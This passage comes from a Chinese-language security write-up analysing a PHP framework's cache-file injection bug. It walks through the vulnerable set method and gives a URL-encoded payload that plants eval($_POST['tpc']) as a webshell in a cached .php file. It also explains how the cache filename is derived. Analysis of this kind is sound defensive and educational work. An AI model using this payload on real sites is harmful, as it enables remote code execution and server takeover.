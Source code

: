 ```
            }
            clearstatcache();
            return true;
        }else {
            return false;
        }
}
```

这就是写入缓存的 set 方法，对传入的数据进行了序列化和压缩，  
重点看这两句：

```
$data    = “<?php\n//”.sprintf(‘%012d’,$expire).$check.$data.”\n?>”;
$result  =   file_put_contents($filename,$data);
```

简单拼接一下就写入文件了，Bug 就出现在这里，这时来看看我们  
payload:

```
%0D%0Aeval(%24_POST%5b%27tpc%27%5d)%3b%2f%2f
```

解码后就是：

```
换行+eval(%_POST[‘tpc’]);//
```

就写入恶意代码了。  
最后看看文件名：

```
/**
     * 取得变量的存储文件名
     * @access private
     * @param string $name 缓存变量名
     * @return string
     */
    private function filename($name) {
        $name   =   md5(C('DATA_CACHE_KEY').$name);
        if(C('DATA_CACHE_SUBDIR')) {
            // 使用子目录
            $dir   ='';
            for($i=0;$i<C('DATA_PATH_LEVEL');$i++) {
                $dir    .=  $name{$i}.'/';
            }
            if(!is_dir($this->options['temp'].$dir)) {
                mkdir($this->options['temp'].$dir,0755,true);
            }
            $filename   =   $dir.$this->options['prefix'].$name.'.php';
        }else{
            $filename   =   $this->options['prefix'].$name.'.php';
        }
        return $this->options['temp'].$filename;
}
```
